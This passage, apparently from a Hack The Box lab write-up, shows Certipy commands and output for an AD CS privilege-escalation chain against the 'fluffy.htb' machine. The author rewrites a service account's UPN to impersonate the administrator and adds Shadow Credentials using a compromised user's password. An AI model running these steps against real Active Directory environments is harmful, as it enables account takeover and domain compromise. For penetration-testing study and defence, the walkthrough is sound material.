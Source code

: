 **Step 1: Read initial UPN of the victim account (Optional - for restoration).**

```
fcoomans@kali:~/htb/fluffy$ certipy-ad account -u 'p.agila@fluffy.htb' -p 'prometheusx-303' -dc-ip 10.10.11.69 -user 'ca_svc' read
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Reading attributes for 'ca_svc':
    cn                                  : certificate authority service
    distinguishedName                   : CN=certificate authority service,CN=Users,DC=fluffy,DC=htb
    name                                : certificate authority service
    objectSid                           : S-1-5-21-497550768-2797716248-2627064577-1103
    sAMAccountName                      : ca_svc
    servicePrincipalName                : ADCS/ca.fluffy.htb
    userPrincipalName                   : ca_svc@fluffy.htb
    userAccountControl                  : 66048
    whenCreated                         : 2025-04-17T16:07:50+00:00
    whenChanged                         : 2025-07-16T12:57:03+00:00
```

**Step 2: Update the victim account's UPN to the target administrator's `sAMAccountName`.**

```
fcoomans@kali:~/htb/fluffy$ certipy-ad account -u 'p.agila@fluffy.htb' -p 'prometheusx-303' -dc-ip 10.10.11.69 -upn 'administrator@fluffy.htb' -user 'ca_svc' update
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Updating user 'ca_svc':
    userPrincipalName                   : administrator@fluffy.htb
[*] Successfully updated 'ca_svc'

fcoomans@kali:~/htb/fluffy$ certipy-ad account -u 'p.agila@fluffy.htb' -p 'prometheusx-303' -dc-ip 10.10.11.69 -user 'ca_svc' read
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Reading attributes for 'ca_svc':
    cn                                  : certificate authority service
    distinguishedName                   : CN=certificate authority service,CN=Users,DC=fluffy,DC=htb
    name                                : certificate authority service
    objectSid                           : S-1-5-21-497550768-2797716248-2627064577-1103
    sAMAccountName                      : ca_svc
    servicePrincipalName                : ADCS/ca.fluffy.htb
    userPrincipalName                   : administrator@fluffy.htb
    userAccountControl                  : 66048
    whenCreated                         : 2025-04-17T16:07:50+00:00
    whenChanged                         : 2025-07-16T13:11:16+00:00
```

**Step 3: (If needed) Obtain credentials for the "victim" account (e.g., via Shadow Credentials).**

```
fcoomans@kali:~/htb/fluffy$ certipy-ad shadow -u p.agila -p prometheusx-303 -dc-ip 10.10.11.69 -account ca_svc auto
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Targeting user 'ca_svc'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID '3aef2508-f2d0-4612-e11b-509c1faaab00'
[*] Adding Key Credential with device ID '3aef2508-f2d0-4612-e11b-509c1faaab00' to the Key Credentials for 'ca_svc'
[*] Successfully added Key Credential with device ID '3aef2508-f2d0-4612-e11b-509c1faaab00' to the Key Credentials for 'ca_svc'
[*] Authenticating as 'ca_svc' with the certificate
```